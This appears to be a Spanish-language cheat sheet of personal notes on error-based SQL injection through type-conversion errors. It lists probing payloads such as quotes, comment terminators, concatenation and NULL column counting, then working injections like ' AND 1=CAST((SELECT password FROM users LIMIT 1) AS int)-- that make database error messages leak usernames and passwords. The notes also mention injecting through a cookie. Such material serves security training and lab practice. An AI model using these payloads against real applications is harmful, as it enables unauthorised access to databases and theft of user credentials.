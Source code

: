 ## Error Conversión de tipo de dato
La intención de este tipo de error es mostrar la información sensible en el error, ya que se espera una salida como la siguiente:<br>
` Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char `
Si bien se puede realizar con `CAST()`  tambien se puede con `Converter`
```
CAST ( expression AS target_type [ ( length ) ] )
SELECT CAST('1234' AS INT) AS Result;
SELECT CONVERT ( target_type ( length ), expression )
SELECT CONVERT(INT,'5678') AS Result;
```
### Requisitos base
```
Identificación de comportamiento de error des sintaxis
Comilla simple '
Comilla doble ''
Ejecucción de comentarios '--
Ejecucción de comentarios '--'
Concatenación base
||(SELECT '' )||
Concatenación condicional
AND (SELECT '')
Identificar el número de parametros consultados
||(Select NULL)||
||(Select NULL, NULL)||
AND (SELECT NULL)
AND (SELECT NULL,NULL)
AND 1=1
AND 1=2
```
### Generación de error por conversión de tipo de dato
```
' AND CAST((SELECT 1) AS int)--     => Generar un error ya que espera un valor booleano, depues del AND se espera una respuesta boleana por lo que manda error
' AND 1=CAST((SELECT 1) AS int)--   => Consulta con valor booleano, no debería de dar error ya que es una comparación int
'||CAST((SELECT 1) AS int)||        => Otra forma de consulta, el error es de tipo de dato ya que espera un char en la cadena pero resive un int
'||CAST((SELECT 1) AS int)||--      => Otra forma de consulta, con comentarios
```
### Consultas aplicadas
```
' AND 1=CAST((SELECT username FROM users) AS int)--          =>Consulta los usuarios, toma en cuenta la respuesta que espera si 1 o más filas
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--  => Limita la consulta a una sola fila
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--  => Cambia el parametro para consultar información sensible
'||CAST((SELECT username FROM users limit 1) AS int)||'      =>Mi consulta es más corta
```
**NOTA: Es posible que la consulta se encuentre truncada por lo que puedes eliminar el valor de la cookie o hacer consultas más genericas**
**NOTA:La intención de CAST es que la salida del error muestra la información sensible que es objetivo**
